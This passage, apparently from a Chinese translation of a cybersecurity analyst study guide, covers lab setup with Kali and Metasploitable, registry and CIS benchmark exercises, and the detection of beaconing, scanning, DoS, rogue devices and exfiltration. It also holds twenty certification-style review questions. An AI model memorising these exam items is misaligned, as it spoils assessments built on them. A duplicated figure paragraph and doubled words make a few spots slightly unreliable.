### 第 2 部分：下载虚拟机

* 现在你已经有了虚拟化工具，可以准备下载实用的虚拟机了。这取决于你的带宽，可能需要一些时间。

1. 访问 `www.kali.org/get-kali` 并选择 Virtual Machines（虚拟机），然后选择 64 位 VMware 选项。你需要一个像 `7-Zip` 这样的解压缩工具来提取压缩文件。
2. 访问 `https://information.rapid7.com/download-metasploitable-2017.html` 并下载 Metasploitable 虚拟机。

### 第 3 部分：设置虚拟机

1. 导航到你下载的 Kali Linux 文件。如果你还没有存储，请将该文件解压到存储 VMware 镜像的位置。
2. 打开 VMware Player 并选择 `Open A Virtual Machine`（打开虚拟机）。导航到你的 Kali Linux 目录并选择 `VMX` 文件，然后点击 `Open`（打开）。
3. 你现在可以点击虚拟机的绿色播放按钮运行。
4. 对 Metasploitable 虚拟机重复此过程。

你现在拥有了可以在整书中用于练习的虚拟机。

### 活动 2.2：探索 Windows 注册表

在本次练习中，你将探索 Windows 注册表。

1. 在具有管理员权限的 Windows 系统上，从搜索栏运行 `regedit`。你也可以搜索并运行 `regedit`。你需要在询问是否要允许 `regedit` 对你的计算机进行更改的提示中回答“是”。
2. 探索主注册表单元（Hives）。展开每个单元以查看它们包含键和值。不要进行任何更改。
3. 在注册表中查找最大密码有效期。导航到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SeCEdit\Reg Values\MACHINE/System/CurrentControlSet/Services/Netlogon/Parameters/`。记录你看到的内容。
4. 从开始菜单搜索 `secpol.msc`，然后右键点击它并选择`以管理员身份运行`。
5. 导航到 安全设置 ➢ 本地策略 ➢ 安全选项 ➢ 域成员：计算机帐户密码最大有效期并记下该值。
6. （高级阶）关闭 `regedit`。在 `secpol.msc` 中更改最大密码有效期的值，并使用 `regedit` 检查发生了什么变化。

### 活动 2.3：审查系统加固指南

在本次练习中，你将探索 Windows 11 独立版 CIS 基准（Benchmark）。本次练习将帮助你理解基准的组成部分，以及你如何根据组织需求对其进行更改或调整。

1. 访问 `www.cisecurity.org/cis-benchmarks` 并选择 Access All Benchmarks（访问所有基准）。
2. 你需要提供联系信息以接收提供访问基准的电子邮件。


3. 收到邮件后，访问下载站点并下载 Windows 11 独立版基准（或者你喜欢的其他基准，但本次练习是针对 Windows 11 基准编写的——如果你愿意，欢迎调整练习内容）。

4. 打开基准 PDF 并滚动查看索引——这是一个非常巨大的文档，所以不要尝试读完。

5. 导航到第 398 页——注意 PDF 中的页码与实际页码不同，你需要的是标记为 398 的页码。该页描述了帐户锁定设置。查看描述、影响和说明。注意它还包含了关于该设置的引用和其他细节。此设置对于你的环境合理吗？为什么合理或不合理？如果你被要求为大型组织中的每个系统都开启此设置，你会表达哪些担忧？

6. 对第 537 页上的设置重复此过程。针对能够自动连接到开放热点、联系人共享的网络以及提供付费服务的热点的能力，回答相同的问题。

你现在已经对配置基准进行了一些基础审查。滚动查看剩余索引，识别出一两个两个你可能在练习中感兴趣的设置，然后就完成了！

## 复习题

1. Naomi 想让她的应用程序具有可移植性并容易移动到新环境，而无需完整操作系统的开销。她应该选择哪种解决方案？

   1. x86 架构

   2. 虚拟化

   3. 容器化

   4. SASE 解决方案

2. Bharath 想要更改 Windows 注册表。他应该选择什么工具？

   1. `regwiz.msc`

   2. `notepad.exe`

   3. `secpol.msc`

   4. `regedit`

3. Tom 在故障时想为他的 Cisco 网络设备设置适当的日志级别。他应该设置什么级别？

   1. 1

   2. 3

   3. 5

   4. 7

4. 以下哪不是网络分的常见用途？

   1. 减少攻击面

   2. 限制合规性范围

   3. 提高可用性

   4. 降低效率

5. Ric 的组织想要实施零信任。Ric 对实施方案应该提出什么担忧？

   1. 实施可能非常复杂。

   2. 零信任不支持 TLS。

   3. 零信任与现代软件不兼容。

   4. 可能会阻止用户完成工作。

6. Michelle 拥有一个公司发给她的安全令牌。她拥有什么种类型的因素？

   1. 生物识别

   2. 拥有因素

   3. 知识

   4. 固有性

7. 在联邦服务模型中，哪一方对身份做出断言？

   1. RPs

   2. CDUs

   3. IDPs

   4. APs

8. 这种设计概念要求在允许操作之前进行验证和确认？

   1. 安全访问

   2. 零信任

   3. 信任验证

   4. 扩展网络

9. Juan 的组织使用 LDAP 让用户登录各种服务而无需输入用户名和密码。使用的是哪种服务？

   1. SSO

   2. MFA

   3. EDR

   4. ZeroAuth

10. Jen 的组织想要确保管理员凭据不被滥用。Jen 应该推荐哪种解决方案来解决这个问题？

    1. SAML

    2. CASB

    3. PAM

    4. PKI

11. 财务和医疗记录是什么种数据的示例？

    1. CHD

    2. PCI

    3. PII

    4. TS/SCI

12. 以下哪项不是信用卡的持卡人数据？

    1. 持卡人姓名

    2. CVV 代码

    3. 有期日期

    4. 主账户号码

13. Sally 想要查找 Windows 系统的配置文件。以下哪项不是常见的配置文件位置？

    1. Windows 注册表

    2. `C:\Program Files\`

    3. `\Windows\Temp`

    4. `C:\ProgramData\`

14. PIN 是什么种类型的因素？

    1. 位置因素

    2. 生物识别因素

    3. 拥有因素

    4. 知识因素

15. 哪种协议用于确保日志时间同步？

    1. TTP

    2. NTP

    3. SAML

    4. FTP

16. OAuth、OpenID、SAML 和 AD FS 都是什么种技术的示例？

    1. 联邦

    2. 多因素身份认证

    3. 身份验证

    4. PKI

17. Example 公司将其网络分为不同的网络区域，包括销售、人力资源、研发和访客网络，每个区域都使用网络安全设备相互隔离。Example 公司正在使用哪种概念进行网络安全管理？

    1. 分段

    2. 软件定义网络

    3. 避免单点故障

    4. 分区域路由

18. 在对 Anna 的公司进行渗透测试期间，渗透人员成功破解了公司的 Web 服务器并删除了其日志文件，防止了对其攻击的分析。未来哪种补偿性控制最适合防止此类问题？

    1. 使用全盘加密

    2. 使用日志轮转

    3. 将日志发送到 syslog 服务器

    4. 使用 TLS 保护流量

19. Ben 正在为组织准备一套系统加固程序。以下列哪项*不是*典型的系统加固过程或步骤？

    1. 更新和补丁系统

    2. 启用额外的服务

    3. 启用日志记录

    4. 配置磁盘加密

20. Gabby 正在为她的公司设计多因素身份认证系统。她决定使用密码短语、基于时间的代码生成器和 PIN 码来提供额外的安全性。完成后，她实现了多少种不同的因素？

    1. 一个

    2. 两个

    3. 三

    4. 四

# 第 3 章 恶意活动

响应安全事件和网络事件是网络安全分析师的常见任务，为了做到这一点，你需要如何识别常见的入侵指标（IOC）。网络问题如过度或可疑的带宽消耗、探测和扫描以及非法设备，都是安全专业人员可能会遇到的，并可能指示问题的存在。主机和应用程序问题也经常是响应的一部分，包括主机性能问题、恶意软件和针对性攻击。这使得知道要寻找什么、如何寻找以及你的响应选项是什么，成为网络安全运营的重要部分。

在本章的第一节中，你将学习常见的网络事件，范围从带宽使用、数据外泄到扫描、探测和拒绝服务攻击，以及一些经常用于检测这些事件并进行此类分析的工具和技术。在随后的章节中，你将学习主机和应用程序问题、解决这些问题的检测和分析技术，以及与这些症状相关的常见问题的处理示例。

## 分析网络事件

许多事件始于发现可疑或异常的网络流量。这些事件可能表现为带宽消耗、信标（beaconing）或其他异常流量（如扫描），或不规则的点对点流量、攻击流量，或出现在网络上的非法设备。作为网络安全分析师，你必须能够收集、关联和分析来自大量系统和网络设备的数据，以检测，或者更准确地说，防止这些事件演变成严重问题。

### 捕获网络相关事件

获取网络高层理解的第一步骤之一是获取网络可用带宽使用情况的视图。这通常通过三种常用方法之一实现：基于路由的监控、主动监控或被动监控。

#### 基于路由的监控

基于路由的监控依赖具有路由能力的路由器或交换机，提供有关网络流量和网络设备本身状态的信息。由于路由器通常放置在网络边界或其他内部边界，基于路由的监控可以提供这些点流量的有用视图。

大多数基于路由的监控依赖于捕获通过设备的流量数据。这些关于流量流的信息通常被称为“网络流”（network flows）。存在许多技术来捕获流和其他路由器信息，包括 `NetFlow`，或类似的技术如 `sFlow` 和 `J-Flow`，这些都是监控流量流的标准。它们记录了网络设备接口上的流量信息，然后将这些信息发送到流收集器（flow collectors）。由于数据量巨大，流通常是经过采样的，这意味着每千个或每百个数据包中采样一个，而不是每一个数据包。

除了基于流的报告外，简单网络管理协议（`SNMP`）常用于从路由器和其他网络设备收集信息，并提供更多关于设备本身的信息，而不是流捕获协议提供的流量流信息。

在图 3.1 中，一个典型的网络示例展示了路由器的中心布局如何提供网络整体流量流的视图。从分布交换机发送到其他部门网络或互联网的流量将通过部门路由器并可能通过边界路由器发送，从而在中央流收集系统上捕获网络流信息。



图 3.1 路由器通过向流收集器发送数据来提供网络流量的中心视图。

流信息看起来非常像典型的电话单信息——你可以看到你给谁打了电话、号码是多少以及通话了多久。通过流，你可以看到源、其 IP 地址、目的、其 IP 地址、发送了多少数据包、发送了多少数据，以及使用的端口和协议，这让你对正在使用什么应用程序做出合理的判断。图 3.2 显示了 PRTG 的 `NetFlow` 工具示例，数据列出的方式允许对其排序和搜索。

这些信息对于日常监控和调查都非常有用。此外，将流数据馈给具有基于行为检测能力的安全监控工具，可以识别诸如与远程命令控制（C&C）系统的意外通信。在图 3.2 中，你可以看到本地主机正在访问远程网站——`192.168.1.14` 访问 `157.240.2.35`（Facebook 内容分发网络主机）。如果你查看流量时发现了非预期的流量，或者在调查可疑流量，流可以提供一种快速查看特定主机正在做什么的有用方法。网络流数据既可用于主动（监控整体网络状况和流量水平），也可用于响应（监控意外流量或网络带宽使用的突然变化）。这些数据通常使用安全信息和事件管理（`SIEM`）设备或日志分析工具与其他网络和系统日志及事件数据相结合，以提供更深层次的分析和能力。



图 3.2 NetFlow 数据示例

#### 主动监控

主动监控技术访问远程系统和设备以收集数据。与流和 SNMP 监控通过通过向收集器发送信息来收集数据不同，主动监控通常是数据收集点（尽管它们可能会将这些信息转发到收集器）。主动监控通常收集可用性、路由、包延迟或丢失以及带宽的数据。

以下是主动监控的两个示例：

*   **Pings:** 也可以使用互联网控制消息报协议 (`ICMP`) 通过 ping 远程系统来主动获取网络数据。这仅提供了基础的在线/离线信息，但对于基本用途，`ICMP` 提供了一个简单的解决方案。

*   **iPerf:** 一种用于测量 IP 网络能够处理的最大带宽的工具。公共 `iPerf` 服务器允许对链路带宽进行远程测试，同时也还支持进行内部带宽测试。`iPerf` 测试数据可以帮助建立性能基准，有助于识别网络何时达到其有效界限。

主动监控和基于路由的监控都会向网络添加流量，这意味着网络监控系统可能会与它们正在监控的流量竞争。当出现显著的网络带宽利用问题时，这种类型的网络监控数据可能会丢失或延迟，因为高优先级的流量可能会被置于监控数据之上。

## 被动监控

被动监控依赖于流量通过网络链路上的某个位置时捕获网络信息。在图 3.3 中，网络监控器使用网络分接器发送端点 A 和 B 之间发送的所有流量的副本。这允许监控系统捕获已发送的流量，提供流量速率、协议和内容的详细视图，以及数据包发送和接收的性能细节。



FIGURE 3.3 两个系统之间的被动监控

与主动监控和基于路由的监控不同，被动监控不会向网络添加额外流量。它还执行事后分析，因为数据包必须被捕获并分析，而不是在发送时实时记录。这意味着在选择技术时，应该考虑每种监控方法之间的权衡。

## 检测常见的网络问题

一旦你对网络带宽和设备状态有了了可见性，你就可以利用这些知识来跟踪常见的网络问题。这些常见问题包括带宽消耗、链路和连接故障、信标行为（beaconing）以及意外流量。虽然这些问题都非常常见，但每种类型问题的原因可能非常多样！

### 带宽消耗

带宽消耗会导致服务中断和业务功能故障，使其成为安全分析师和网络管理人员共同关注的问题。在设计良好的网络中，网络将配置为使用符合其设计、安全和监控要求的日志和监控方法，并将这些数据发送到一个可以提供带宽使用告警的中央系统。我们在本章已经讨论的技术可以提供检测带宽消耗问题所需的信息：

*   使用流数据的工具可以显示趋势和状态信息，表明网络带宽利用已达到峰值。

*   可以使用监控工具检查高使用率水平，并根据阈值发送告警。

*   可以使用实时或近实时的图表在产生使用时监控带宽。

*   `SNMP` 数据可用于监控路由器或网络设备层面的高负载以及带宽利用的其它迹象。

### 信标行为 (Beaconing)

信标活动（有时称为心跳）是作为僵尸网络或恶意软件远程控制系统的一部分发送到 C&C 系统的活动，通常以 `HTTP` 或 `HTTPS` 流量的形式发送。信标可以请求命令、提供状态、下载额外的恶意软件或执行其他操作。由于信标通常是加密的并与其他 Web 流量混在一起，因此可能很难识别，但检测信标行为是检测恶意软件感染的关键部分。

信标行为的检测通常通过使用具有检测规则的 `IDS` 或 `IPS` 来处理，这些规则可以识别已知的僵尸网络控制器或僵尸网络特定行为。此外，使用流分析或其他流量监控工具确保系统没有发送可能可能是信标的意外流量也是可能的。这意味着检查出站流量以确保感染系统未驻留在你的网络中，与处理入站流量的控制一样重要。

图 3.4 信标行为的检测通常通过使用具有检测规则的 `IDS` 或 `IPS` 来处理，这些规则可以识别已知的僵尸网络控制器或僵尸网络特定行为。此外，使用流分析或其他流量监控工具确保系统没有发送可能可能是信标的意外流量也是可能的。这意味着检查出站流量以确保感染系统未驻留在你的网络中，与处理入站流量的控制一样重要。

图 3.4 信标行为显示了通过 `HTTP` 访问远程站点的模拟信标行为，且每 10 秒发送一次。这种重复行为很难发现，但自动化分析可以可以识别它。使用在本章稍后介绍的 `Wireshark` 等工具直接捕获流量是很有用的，但 `IDS` 和 `IPS` 对于更广泛的视图更有用。


FIGURE 3.4 Wireshark 中的信标

### 意外流量激增

网络中的意外流量有许多形式：扫描、遍历和探测；不应通信的系统之间的点对点流量；流量激增；意外端口上的活动；或直接攻击流量。意外流量可以通过内置在 `IDS` 和 `IPS` 中的行为能力、流量监控系统或手动观察系统之间的流量来检测。理解预期和意外流量取决于三种主要技术：

*   基准（或异常检测），需要了解什么是正常。基准通常在正常网络运行时收集。一旦收集了基准数据，当超过给定阈值或网络行为偏离基准时，监控系统即可告警。

*   启发式（或基于行为的检测），使用网络安全设备和定义的规则来检测扫描、遍历、攻击流量和其他网络问题。

*   协议分析，使用协议分析器捕获数据包并检查问题。协议分析器可以帮助发现意外流量，例如在没有预期 VPN 流量的网络中的 VPN 流量，或来自 IPv4 网络中的 IPv6 隧道。它们还可以帮助识别当常用协议通过异常端口发送时，这可能表明攻击者正在设置替代端口。

并不是所有的意外流量都是恶意的，但确保你拥有适当的系统和方法来检测异常和意外行为，并且能够识别意外流量的发生以便做出响应对应的。

## 检测扫描和遍历

扫描、遍历和探测本身对基础设施通常不是重大威胁，但它们通常是针对性攻击的前奏。检测扫描和探测通常非常简单：网络扫描由于其包含的行为（如对服务端口进行顺序测试、连接网络中的许多 IP 地址以及对可能未服务的重复请求）通常很容易检测。更隐蔽的扫描和探测在网络噪声中更难以检测，而在连接到互联网的系统中检测来自远程系统的隐蔽扫描可能非常有挑战性。

幸运的是，大多数 `IDS` 和 `IPS` 以及如防火墙和网络安全设备等其他网络安全设备都内置了扫描检测功能。启用这些功能可能会产生大量噪声，在许多情况下，你对扫描无能为。许多组织选择将扫描检测数据馈送到安全信息管理工具中，并与攻击和其他事件的数据相结合，而不是直接响应扫描和探测。

# 检测拒绝服务与分布式拒绝服务攻击

`Denial-of-service (DoS)` 攻击可以以许多形式存在，但其目标保持不变：阻止对系统或服务的访问。这些攻击可以从单个系统发起，也可以作为分布式拒绝服务（DDoS）攻击的一部分，从多个系统发起。检测和防止 DoS 攻击已成为网络安全分析师技能中日益重要的一部分。

## DoS 攻击

DoS 攻击通常包含以下一种或多种攻击模式：

*   试图通过大量的请求或流量来淹没网络或服务

*   针对特定服务或系统漏洞进行攻击，导致系统或服务故障

*   针对中间系统或网络进行攻击，防止流量在两个位置之间传输

每种类型的攻击都需要略不同的检测方法。这意味着，你的网络、系统和服务监控能力需要进行配置，以便根据可能针对你基础设施的攻击类型来监控多种类型的攻击。

来自单个系统或网络的 DoS 攻击通常可以通过防火墙或其他网络安全设备拦截该系统或网络来停止。`IPS` 也可以拦截已知的攻击流量，防止 DoS 攻击的发生。除非目标受到特定的服务或应用程序漏洞的影响，或者由于带宽或其他资源限制，目标很容易被单个远程系统淹没，否则单系统 DoS 攻击的可能性低于 DDoS 攻击。

## 分布式拒绝服务攻击

`Distributed denial-of-service (DDoS)` 攻击同时来自许多系统或网络。由于流量来自许多地方，它们很难检测，这使得它们更难停止。许多 DDoS 攻击由僵尸网络中的受感染系统组成，允许攻击者从数百或数千个系统发送流量。

## 检测 DoS 和 DDoS 攻击

由于 DoS 和 DDoS 攻击有很多种类，建立有效的 DoS 和 DDoS 检测能力通常涉及多种类型的工具和监控系统。这些通常包括：

*   使用服务性能监控工具进行性能监控

*   使用本地系统或应用程序日志进行连接监控

*   网络带宽或系统带宽监控

*   启用 DoS 和 DDoS 检测规则的专用工具，如 `IDS` 或 `IPS`

在事件响应期间，用于分析网络流量的命令行工具（如 `netstat`）可以帮助本地服务器的故障排除，但从网络或服务的角度来看通常能为问题提供更广泛的视角。

## 检测其他网络攻击

可以使用前面概述的技术检测其他基于网络的攻击：

*   使用 `IDS` 或 `IPS`

*   监控流、`SNMP` 和其他网络信息是否存在可疑行为

*   将防火墙、路由器、交换机和其他网络日志馈到中央日志分析和监控系统

*   使用 `SIEM` 设备审查并自动对问题流量进行告警


部署主机级工具，如终端检测与响应（`EDR`），它们在端点级监控网络行为。

## 检测和发现非法设备

`Rogue devices` 是连接到不应连接网络的设备，可能是由于策略原因，也可能是被攻击者添加。发现非法设备可能具有挑战性——许多网络有数百或数千个设备，而且设备管理在网络中可能并不一致。

识别非法设备的常用方法有很多：

- **有效 MAC 地址检查**：使用提供给网络设备的硬件（`MAC`）地址信息，验证设备向已知设备列表呈现的硬件地址。
- **MAC 地址厂商信息检查**：网络设备供应商为其设备使用厂商前缀。这意味着根据制造商识别许多设备。
- **网络扫描**：使用`nmap`等工具执行以识别新设备。
- **现场勘测**：涉及通过手动验证或检查现场无线网络来物理检查场地的设备。
- **流量分析**：用于识别不规则或异常的行为。

有线网络和无线网络面临的非法设备威胁略有不同，在响应潜在事件时，你需要意识到这些差异。

### 有线非法设备

大多数有线非法设备依赖开放或未认证的网络进行连接。没有像检查信任`MAC`地址的`port security`或`network access control`（`NAC`）技术等访问控制的开放网络是有线非法设备的容易目标。有线非法设备通常意味着发生了以下两种可能的情况之一：

- 组织的员工或其他受信任成员连接了设备。
- 攻击者向网络连接了设备。

第一种情况可能是简单的失误，但第二种情况意味着攻击者已经物理接触了你的网络。无论何种情况，连接到网络的非法设备都应该迅速响应以便将其移除。

### 无线非法设备

无线非法设备会带来额外的挑战，因为它们并不总是能追踪到特定位置。这意味着追踪非法设备可能涉及使用信号强度测量并将非法设备所在的区域进行映射以尝试定位它。幸运的是，如果无线非法设备接入了你的网络，使用开启了操作系统识别的端口扫描通常可以帮助定位该设备。在图 3.5 中，一个常见的家用路由器在连接到网络后被扫描。在这个示例中，`nmap`无法立即识别该设备，但显然它不是台式系统，因为它显示路由器可能是一个 VoIP 电话、防火墙或其他嵌入式设备。

```

```

**图 3.5**：对潜在非法系统的 nmap 扫描

## 调查与主机相关的问题

服务器和工作站的安全问题可能很难识别。现代恶意软件非常擅长隐藏。幸运的是，系统监控工具可以通过检查与主机相关的问题来识别异常行为。这意味着系统监控对于安全和日常系统健康目的都是用的。

### 系统资源

大多数服务器和工作站最基本的监控是资源监控。CPU、内存、磁盘和网络等系统资源的利用信息可以提供有关系统状态、负载以及是否存在问题的价值细节。

#### 处理器消耗与监控

了解哪些进程消耗 CPU 时间、CPU 利用率是多少以及这些进程何时运行，对于事件检测和响应非常有用。突然的激增，或者在利用水平一致的系统中 CPU`processor consumption`的增加，可能表明出现了新软件或之前未激活的进程。持续高 CPU 利用率也可能指向 DoS 状况。单用 CPU 负载信息通常无法说明整个问题，但它应该是你监控工作的一部分。

#### 内存消耗与监控

Windows 提供了内置的资源和性能监控工具。资源监视器（Resource Monitor）或`resmon`是 Windows 资源监视器，提供了对 CPU、内存、磁盘和网络利用率的直观视图。除了利用率，它的网络监控功能还可以显示网络活动的进程、哪些`TCP`连接是打开的，以及哪些服务关联了系统的端口。图 3.6 显示示例 Windows 系统的资源监视器界面。

性能监控器（Performance Monitor）或`perfmon`提供了更详细的数据，计数器范围从能量使用到磁盘和网络活动。它还支持从远程系统收集数据，提供了更广泛系统视图。对于详细的数据收集，`perfmon`是更好的解决方案，而`resmon`用于快速检查机器的基本使用指标。图 3.7 显示了配置了磁盘和处理器监控的`perfmon`。这些数据可以组合成用户或系统定义的报告。



**图 3.6** Windows 资源监视器系统视图

**图 3.7** Windows 性能监控器系统使用视图

`Data exfiltration`（数据外泄），即未经授权从系统和数据存储中移除数据，是恶意活动的关键指标。攻击通常寻求数据，以便其进行进一步的攻击和渗透，或者将其作为可以出售或直接利用的昂贵资产。所有类型的组织数据都是攻击者的主要目标。

这意味着安全实务人员需要使用能够检测并阻止数据外泄的工具和技术。同时，恶意攻击者试图通过多种方法掩盖外泄活动，包括使用加密、通过`HTTPS`等常用通道发送数据，或者通过`DNS`请求或其他服务的隐蔽通道（如隧道技术）发送。

`EDR`、`IPS`和数据泄露防护（`DLP`）系统等工具在监控和防止数据外泄方面都起着重要作用。分层防御结合适当的数据标记和保护，均可以帮助防御者检测、防止或停止数据外泄。

## 未经授权的访问、更改和权限使用

对系统和设备的未经授权访问，以及导致意外更改的权限使用，是引起警觉的主要原因。遗憾的是，许多组织中系统的数量和种类，以及用户模型和权限模型的复杂性，使得监控未经授权的活动具有挑战性。

好消息是，监控未经授权的访问、更改和权限使用了我们已经讨论过的许多相同的技术和方法。表 3.1 列出了每种未经授权使用的的一些可能检测方法。

**表 3.1** 未经授权的使用与检测机制

| 未经授权类型 | 记录数据 | 数据位置 | 分析工具 |
| --- | --- | --- | --- |
| 未经授权访问 | 身份验证、用户创建 | 身份验证日志、用户创建日志 | 中央管理套件、SIM/SIEM |
| 未经授权更改 | 文件创建、设置更改 | 系统日志、应用程序日志、监控工具 | 中央管理套件、SIM/SIEM、文件和目录完整性检查工具（`Tripwire`） |
| 未经授权权限使用 | 权限使用尝试、权限提升 | 安全事件日志、应用程序日志 | SIM/SIEM、日志分析工具 |

未经授权的权限可能难以追踪，特别是当它们没有经过集中化管理和审计时。幸运的是，像`Sysinternals`的`AccessChk`等工具可以通过验证特定用户或组对文件、注册表项和服务的访问来提供帮助。另一方面，尽管`Linux`中的审计系统可以帮助检测权限的使用，但检查特定权限通常需要你编写脚本来检查你所关注的特定权限。

### 注册表更改或异常

Windows 注册表是想要维持 Windows 系统访问的攻击者喜欢的位置。使用运行键（run keys）、Windows 启动文件夹和类似技术是常见的持久化技术。

注册表运行键可以在此处找到：

- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`
